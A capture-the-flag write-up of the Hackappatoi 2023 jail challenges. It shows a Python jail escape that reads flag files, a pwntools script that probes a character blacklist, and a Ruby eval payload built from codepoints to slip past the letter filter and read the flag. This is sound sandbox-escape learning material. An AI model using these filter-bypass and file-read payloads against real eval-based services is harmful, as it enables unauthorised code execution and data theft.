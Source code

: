 ```yaml
---
layout: writeup
category: Hackappatoi-CTF-2023
chall_description:
points: 310
solves: N/A
tags: Hackappatoi-CTF-2023 misc misc/pyjail misc/ruby-jail
date: 2023-12-10
comments: false
---
```


Italy is maybe the most touristic country around the world, amazing food, spectacular monuments, and faboulus environments  

But in the last period Italy don't wanna let anyone escape...  

`nc 92.246.89.201 8888`  

---

Connect to the service. Here's what it shows:  

```py



                              ΓûêΓûê              ΓûêΓûê
                            ΓûêΓûê              ΓûêΓûê
                          ΓûêΓûê        ΓûêΓûê    ΓûêΓûê
                          ΓûêΓûê      ΓûêΓûê      ΓûêΓûê
                            ΓûêΓûê    ΓûêΓûê        ΓûêΓûê
            ΓûæΓûæΓûæΓûæ              ΓûÆΓûÆ  ΓûêΓûê          ΓûÆΓûÆ  ΓûæΓûæ
                              ΓûêΓûê    ΓûêΓûê        ΓûêΓûê
                            ΓûêΓûê        ΓûêΓûê    ΓûêΓûê
                                      ΓûêΓûê  ΓûêΓûê
                                    ΓûêΓûê
                                                  ΓûæΓûæ
                  ΓûêΓûêΓûêΓûêΓûêΓûê        ΓûêΓûêΓûêΓûêΓûêΓûêΓûêΓûêΓûêΓûêΓûêΓûê
                ΓûêΓûê      ΓûêΓûê    ΓûêΓûê            ΓûêΓûê
              ΓûêΓûê    ΓûêΓûêΓûêΓûê  ΓûêΓûêΓûêΓûê    ΓûêΓûêΓûêΓûêΓûêΓûêΓûêΓûê    ΓûêΓûê              ΓûêΓûêΓûêΓûê
            ΓûêΓûê    ΓûêΓûê    ΓûêΓûêΓûêΓûê    ΓûêΓûê        ΓûêΓûê    ΓûêΓûêΓûêΓûêΓûêΓûê      ΓûêΓûê    ΓûêΓûê
            ΓûêΓûê  ΓûêΓûê  ΓûêΓûêΓûêΓûêΓûêΓûê    ΓûêΓûê    ΓûêΓûêΓûêΓûê    ΓûêΓûê    ΓûêΓûê  ΓûêΓûê  ΓûêΓûê        ΓûêΓûê
          ΓûêΓûê  ΓûôΓûô  ΓûêΓûê  ΓûêΓûê    ΓûêΓûê    ΓûêΓûê    ΓûêΓûê    ΓûêΓûê    ΓûôΓûô  ΓûôΓûô          ΓûêΓûê
          ΓûêΓûêΓûêΓûêΓûêΓûêΓûêΓûêΓûêΓûêΓûêΓûêΓûêΓûêΓûêΓûêΓûêΓûêΓûêΓûêΓûêΓûêΓûêΓûêΓûêΓûêΓûêΓûêΓûêΓûêΓûêΓûêΓûêΓûêΓûêΓûêΓûêΓûêΓûêΓûêΓûêΓûêΓûêΓûêΓûêΓûêΓûêΓûêΓûêΓûêΓûêΓûê    ΓûêΓûê
            ΓûêΓûêΓûêΓûêΓûêΓûêΓûêΓûêΓûêΓûêΓûêΓûêΓûêΓûêΓûêΓûêΓûêΓûêΓûêΓûêΓûêΓûêΓûêΓûêΓûêΓûêΓûêΓûêΓûêΓûêΓûêΓûêΓûêΓûêΓûêΓûêΓûêΓûê      ΓûêΓûêΓûêΓûê    ΓûêΓûê
            ΓûêΓûêΓûêΓûêΓûêΓûêΓûêΓûêΓûêΓûêΓûêΓûêΓûêΓûêΓûêΓûêΓûêΓûêΓûêΓûêΓûêΓûêΓûêΓûêΓûêΓûêΓûêΓûêΓûêΓûêΓûêΓûêΓûêΓûêΓûêΓûêΓûêΓûê      ΓûêΓûêΓûêΓûê  ΓûêΓûê
              ΓûêΓûêΓûêΓûêΓûêΓûêΓûêΓûêΓûêΓûêΓûêΓûêΓûêΓûêΓûêΓûêΓûêΓûêΓûêΓûêΓûêΓûêΓûôΓûôΓûêΓûêΓûêΓûêΓûêΓûêΓûêΓûêΓûêΓûê      ΓûêΓûêΓûêΓûê    ΓûêΓûê
                ΓûêΓûêΓûêΓûêΓûêΓûêΓûêΓûêΓûêΓûêΓûêΓûêΓûêΓûêΓûêΓûêΓûêΓûêΓûêΓûêΓûêΓûêΓûêΓûêΓûêΓûêΓûêΓûêΓûêΓûê    ΓûêΓûêΓûêΓûêΓûêΓûê        ΓûêΓûê
                  ΓûêΓûêΓûêΓûêΓûêΓûêΓûêΓûêΓûêΓûêΓûêΓûêΓûêΓûêΓûêΓûêΓûêΓûêΓûêΓûêΓûêΓûêΓûêΓûêΓûêΓûê  ΓûêΓûêΓûêΓûêΓûêΓûêΓûêΓûê
                      ΓûêΓûêΓûêΓûêΓûêΓûêΓûêΓûêΓûêΓûêΓûêΓûêΓûêΓûêΓûôΓûôΓûêΓûêΓûêΓûêΓûêΓûêΓûêΓûêΓûôΓûôΓûôΓûô





≡ƒì┤≡ƒì┤≡ƒì┤
```

The challenge clearly implies this is some sort of code jail. These are typically pyjails -- let's test it out.  

Sending `print` returns `<built-in function print>`, which pretty much confirms this is a pyjail. I immediately decided to try a naive method to get the flag.  

```py
print(open('flag.txt', 'r').read())
```

Output:  

```
read key

None
```

Hey... that worked? No keywords or anything were blacklisted? Well, let's check out `key` anyways.  

```py
print(open('key', 'r').read())
```

```
guera

Yep, not the flag..., use 'guera' as the password for the real challenge at port 8889

None
```

Ah. So there's a part 2 to this challenge. Let's check it out!  

Here's what we're presented with after sending the key, `guera`:  

```
Oh Oh you escaped from a pasta jail..., can you escape from a bank and steal a precious ruby?...


Welcome to:
HACKAPPATOI's Jewelry (We got funds from zio Berlusca)
Here you will find a magnific 1337 Jewel

        _______
      .'_/_|_\_'.
      \`\  |  /`/
       `\\ | //'
         `\|/`
           `

But you need to obtain it and it won't be so easy...
You have a command to get it....
Good Luck!
Enter command:
```

Another pyjail? Let's try sending `print`:  

`Oopsie.. your input is bad... We blocked it.`  

Not sure if it's Python yet, but definitely some blacklisting going on. Let's try some random letters. Eventually, with the input `a`, I got this:  

```
(eval):1:in `<main>': undefined local variable or method `a' for main:Object (NameError)
        from jewelry.rb:40:in `eval'
        from jewelry.rb:40:in `<main>'
```

`.rb`...? Isn't that a Ruby file? So this must be a Ruby jail!  

With further testing, I quickly realized a lot of characters were blacklisted. Hence, I wrote a quick script to test which ones were blacklisted:  

```py
# print(open('flag.txt', 'r').read())
# print(open('key', 'r').read())
# pass is 'guera'

from pwn import *
import string

posschars = string.ascii_letters + string.digits + string.punctuation
validchars = []
for i in posschars:
    conn = remote('92.246.89.201', 8889)
    conn.recv()
    conn.sendline(b'guera')
    conn.recv()
    conn.recv()
    conn.sendline(i.encode())
    res = conn.recv().decode()
    conn.close()
    if 'Oops' not in res:
        validchars.append(i)
        print(res)

print(validchars)
```

Testing revealed that these characters...  

```py
['a', 'e', 'l', 'v', 'A', 'B', 'C', 'D', 'E', 'F', 'G', 'H', 'I', 'J', 'K', 'L', 'M', 'N', 'O', 'P', 'Q', 'R', 'S', 'T', 'U', 'V', 'W', 'X', 'Y', 'Z','0', '1', '2', '3', '4', '5', '6', '7', '8', '9', '!', '"', '#', '$', '%', '&', "'", '(', ')', '*', '+', ',', '-', ':', ';', '<', '=', '>', '?', '@','[', '\\', ']', '^', '`', '{', '|', '}', '~']
```

...were the only allowed characters. That's odd... only `aelv` are allowed of the lowercase letters, and, importantly, these spell out `eval`. Maybe that'll be important to the challenge?  

At this point, since I had never even used Ruby before, much less broken a Ruby jail, I started doing a lot of research and playing around with the service. I tried octal numbers, global variables, predefined constants, etc etc. Overall, I ended up being stuck for over an hour on this section of the problem. Eventually, my search query of `ruby jail without letters ctf` returned results. The reason I wanted to find some sort of hint to breaking a ruby jail without letters was because a lot of lowercase letters were restricted, so if I could find a way to break it without letters, I could easily break the jail. (in hindsight, I should have searched this up much earlier!)  

Scrolling down a bit, I found [this writeup](https://ctftime.org/writeup/16824) on CTFtime. Take a look at this section:  

>[This article](https://threeifbywhiskey.github.io/2014/03/05/non-alphanumeric-ruby-for-fun-and-not-much-else/) describes how you can write ruby code without letters, and since we are able to use the quote sign ', we can create strings with the shovel operator trick they describe.  

I immediately took a look through the article and found this section:  


>Logically enough, it can “shovel” strings into each other. This doesn’t quite help us, of course, as we’re not allowed to create explicit character strings. We can, however, shovel Unicode codepoints into strings to achieve the same effect:  
>
>```rb
>'' << 97 << 98 << 99
># "abc"
>```

So we don't need letters at all to construct our inputs! Perfect!  

Now all that's left to do is construct our payload. With the help of [this](https://onlinetools.com/ascii/convert-ascii-to-decimal) decimal to ASCII converter and [this](http://www.unit-conversion.info/texttools/replace-text/) online replace string helper, I was able to construct our payload pretty easily. At first, trying to open `flag.txt` didn't work, but then, trying `flag` did!  

Here is the ASCII:  

```rb
puts File.open("flag").read
```

And here is the payload to send to the service:  

```rb
eval(''<<112<<117<<116<<115<<32<<70<<105<<108<<101<<46<<111<<112<<101<<110<<40<<34<<102<<108<<97<<103<<34<<41<<46<<114<<101<<97<<100)
```  

And sending it produces the flag!  

    HCTF{1s_d1z_r34l1ty_0r_F1c710n?}  

Thoughts: As a complete newbie to both pyjails and ruby, I was pretty proud of this solve! Although it did take me quite a long time to solve, I thought I managed to figure out everything by the end quite nicely :)  